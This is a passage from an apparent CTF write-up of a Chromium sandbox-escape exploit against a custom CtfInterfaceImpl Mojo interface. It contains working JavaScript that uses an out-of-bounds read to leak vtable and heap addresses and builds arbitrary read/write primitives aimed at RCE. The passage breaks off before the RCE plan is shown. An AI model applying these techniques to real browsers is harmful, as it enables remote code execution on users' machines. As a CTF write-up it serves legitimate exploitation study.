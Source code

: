 By doing this, we found that there's a high probability that `CtfInterfaceImpl` object `B[2]` will be placed right behind `B[0]`'s `numbers_` vector. By using the OOB read/write on `B[0]->numbers_`, we'll be able to leak some address and hijack the control flow.

However there's still a possibility that `B[2]` won't be placed right behind `B[0]->numbers_`, so before we continue our exploitation, we'll have to make sure that the current heap layout is exploitable:

```javascript
// leak address from B[2]
var vtable = (await B[0].read(4)).value; // vtable
var heap1 = (await B[0].read(5)).value; // numbers_ ( vector_begin )
var heap2 = (await B[0].read(6)).value; // numbers_ ( vector_end )

vtable = ftoi(vtable);
heap1 = ftoi(heap1);
heap2 = ftoi(heap2);
/* Check if B[2] is right behind B[0]->numbers_ */
if ((heap1 + 0x20n == heap2) && ( (vtable & 0xfffn) == 0x4e0n)) { // Pass check !
    print("OK!");
    print(hex(vtable));
    print(hex(heap1));
    print(hex(heap2));
} else { // Failed ! reload page and restart SBX exploit
    window.location.reload();
}
```

Here we use the values we leaked from `B[0]->numbers_` and see if they contain the vtable address of `CtfInterfaceImpl` and the heap address of `B[2]->numbers_`. If it passes the check, continue our exploit, or else we'll have to reload the page and restart our SBX exploit.

By now we're able to corrupt the `B[2]` object and do some interesting stuff. For example, we can achieve arbitrary read/write by corrupting the pointer of `B[2]->numbers_`:

```javascript
// Now B[0] can control B[2]->numbers_'s data pointer by setting B[0].Write(xxx, 5)
async function aaw(address, value) {
    // arbitrary write
    await B[0].write(itof(address), 5);
    await B[2].write(itof(value), 0);
}

async function aar(address) {
    // arbitrary read
    await B[0].write(itof(address), 5);
    var v = (await B[2].read(0)).value;
    return ftoi(v);
}
```

However, it seems that we don't need those arbitrary read/write primitive after all. Since now we have the base address of `chromium` ( the vtable address ) and the heap buffer address ( `B[2]->numbers_` ), we ended up using the following exploit plan to achieve RCE:
